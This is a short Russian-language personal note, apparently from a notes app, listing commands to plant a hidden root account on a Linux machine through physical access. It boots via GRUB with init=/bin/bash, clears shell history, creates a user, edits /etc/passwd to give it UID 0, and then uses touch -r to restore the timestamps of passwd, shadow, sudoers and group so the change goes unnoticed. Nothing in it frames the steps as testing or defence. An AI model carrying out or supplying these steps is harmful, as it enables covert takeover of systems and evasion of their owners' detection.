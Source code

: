 В грабе F2 F2
В конце строки пишем init=/bin/bash (По умолчанию запускается линукс, подменяем на bash)
mount -o remount, rw / (Монтируем корневую систему (по умолчанию на чтение) на чтение и запись)
HISTFILE="" (убираем логи)
Делаем резервную копию
	mktemp -d (Временная дирректория)
	 cd  ...
	 cp -p /etc/passwd .
	 cp -p /etc/shadow .
	 cp -p /etc/sudoers .
	 cp -p /etc/group .
	 cp -p /etc/gshadow .
Создаём юзера
/usr/sbin/useradd <имя_польователя>
passwd <имя_польователя>
password
password

(ls /home проверить пользователя)

mv /home/<имя_польователя> /tmp

nano /ets/passwd
меняем строку нашего пользователя
...x:0:0...

touch -r passwd /etc/passwd
touch -r shadow /etc/shadow
touch -r gshadow /etc/ghsdow
touch -r group /etc/group
touch -r sudoers /etc/sudoers
touch -r passwd /etc/home
touch -r passwd /home

ls -lat /home

ls /etc | grep home

rm /etc/home
ls /etc | grep home
whereis reboot

.../reboot -f

В консоле

HISTFILE=""
ls /tmp
rm -r /tmp/tmp....

su <имя_польщователя>
<пароль>

[[Полезные записки]]